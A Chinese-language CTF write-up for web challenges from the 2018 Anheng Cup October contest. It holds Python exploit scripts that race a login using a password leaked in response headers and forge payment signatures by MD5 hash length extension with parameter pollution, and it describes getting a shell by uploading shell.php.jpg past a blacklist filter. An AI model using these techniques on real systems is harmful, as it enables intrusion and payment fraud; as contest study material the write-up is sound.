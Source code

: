 ```yaml
---
layout: post
title: 2018年安恒杯10月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web
复现的时候环境已经关闭了，所以没有截图了

###手速要快（100分）:
打开网站，是一个登陆页面，抓包在返回包的包头里发现password字段，很快就会刷新，所以要写个脚本，读取password字段后立刻提交，脚本如下，经过测试需要带上cookie才能成功。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import re
import time

url1 = "http://101.71.29.5:10023/index.php"
response = requests.get(url=url1)
head = response.headers
# 将头信息转为可以进行json序列化的
x = requests.structures.CaseInsensitiveDict(head)
js = dict(x)
# print js # 此处打印出来的是一个json字符串
password=js.get("password")
cookie = js.get("Set-Cookie")
cookie=cookie[10:42]
url2 = "http://101.71.29.5:10023/login.php"
data = "password=123&submit_password=login"
data = {
        "password":password,
        "submit_password":""
    }
cookie = {'PHPSESSID': "5f3d0b93c3536da16830445227d1bad7"}
re2 = requests.post(url=url2,data=data,cookies=cookie)
print re2.text
print re2.cookies
```
登陆成功后跳转到一个上传页面，需要上传php木马，经过测试上传检测使用的是黑名单过滤，但是存在解析漏洞，上传shell.php.jpg即可getshell，flag在上级目录。

### Shop（300分）

`8月份人行比赛的原题`
本题考查了http参数污染和hash长度扩展攻击
HTTP 参数污染指的是在 HTTP 请求中 发送多个相同的参数，可能会导致一些非预期的结果。比如在 Querystring 中 发送两个 test 参数，Apache + PHP 会取最后一个:

```
http://127.0.0.1?test=123&test=456

$_GET['test']=456
```

而哈希长度扩展攻击适用于在消息与密钥的长度已知的情形下，所有采取了 H(密钥 ∥ 消息) 此类构造的散列函数。该攻击对 MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法有效。简单地说，就是当知道 MD5(secret) 时， 在不知道 secret 的情况下，可以很轻易的推算出 MD5(secret∥padding∥m’)
也就是说，我们需要结合上面两种手段，在原有的 Request Body 后追加 一些内容(padding 和用于覆盖的参数)，然后计算出新的 signature，完成支付。
我的exp如下，key长度可以从源代码里找到，或者直接爆破。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from hashpumpy import hashpump
import requests
import re
sign = 'c5cc881eef97f4276b2c86bc0e42490e'
data ='order_id=72&buyer_id=19&good_id=38&buyer_point=300&good_price=888&order_create_time=1541586327.760354'
cookie = {'sessionid': 'aybgeojx2vtvekwt8bg8vqxjqde18na0'}
# sign = '58e9846626f7c1b8e80ac2da8b456e9d'
# data = 'order_id=91&buyer_id=22&good_id=34&buyer_point=200&good_price=50&order_create_time=1528269449.183292'
# cookie = {'sessionid': '6j31jogubedhgfo3pq8vlwploe5zzwmj'}
check_url = 'http://101.71.29.5:10014/payment/check'
#for i secret_key_length range(0,2000):
secret_key_length = 13
for i in range(1, 30):
    res = hashpump(sign, data, '&buyer_id={}'.format(i), secret_key_length)
    print(res)
    req = requests.post('{}?signature={}'.format(check_url, res[0]),
    data=res[1], cookies=cookie, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    print(re.findall('\<h4\>.*?\<\/h4\>', req.text))
```


## easy audit和CoolCms没做出来，请参考下面微笑大神的博客，还包括其他reverser和misc的一些题。

[https://www.smi1e.top](https://www.smi1e.top/%E5%AE%89%E6%81%92%E6%9D%AF%E6%9C%88%E8%B5%9Bwrite-up/)



[1]: https://www.linkedbyx.com/home
[2]: https://www.smi1e.top